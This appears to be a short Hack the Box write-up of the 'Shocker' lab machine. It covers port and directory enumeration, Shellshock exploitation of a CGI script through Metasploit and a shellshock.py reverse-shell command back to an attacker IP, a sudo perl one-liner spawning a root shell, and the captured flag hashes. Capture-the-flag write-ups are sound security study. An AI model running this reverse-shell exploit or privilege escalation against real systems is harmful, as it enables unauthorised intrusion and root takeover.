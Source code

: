 ```yaml
---
layout: post
status: publish
published: true
permalink: shocker
title: 'Shocker box on Hack the Box Write up'
author: Jean-Michel Frouin
author_login: jmfrouin
author_email: jm@frouin.me
author_url: http://frouin.me
date: '2020-04-10 09:45:49 +0100'
date_gmt: '2013-04-10 08:45:49 +0100'
categories:
- htb
- pentest
- unix
comments: []
---
```

# General infos

- OS: 	Linux
- Difficulty: 	Easy
- Points: 	20
- Release: 	30 Sep 2017
- IP: 	10.10.10.56

![MindMap](Shocker.png "Shocker")

## Enumeration

### Ports

- 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
- 2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)

### Web

- Dir found: / - 200
- Dir found: /cgi-bin/ - 403
- Dir found: /icons/ - 403
- File found: /cgi-bin/user.sh - 200
- Dir found: /icons/small/ - 403

## Exploitation

### Using MetaSploit

- multi/http/apache_mod_cgi_bash_env_exec
- TARGETURI : /cgi-bin/useer.sh

### Manual exploitation 

```
./shellshock.py payload=reverse rhost=10.10.10.56
lhost=10.10.14.36 lport=4444 pages=/cgi-bin/user.sh
```

## User Flag

### Location : /home/shelly/user.txt

```
2ec24e11320026d1e70ff3e16695b233
```

## Priv Esc

```
sudo /usr/bin/perl -e 'system("/bin/bash")'
```

## Root Flag

Location : /root/root.txt
 
```
52c2715605d70c7619030560dc1ca467
```
<!-- Matomo -->
<script type="text/javascript">
  var _paq = window._paq || [];
  /* tracker methods like "setCustomDimension" should be called before "trackPageView" */
  _paq.push(['trackPageView']);
  _paq.push(['enableLinkTracking']);
  (function() {
    var u="//stats.frouin.me/";
    _paq.push(['setTrackerUrl', u+'matomo.php']);
    _paq.push(['setSiteId', '1']);
    var d=document, g=d.createElement('script'), s=d.getElementsByTagName('script')[0];
    g.type='text/javascript'; g.async=true; g.defer=true; g.src=u+'matomo.js'; s.parentNode.insertBefore(g,s);
  })();
</script>
<!-- End Matomo Code -->

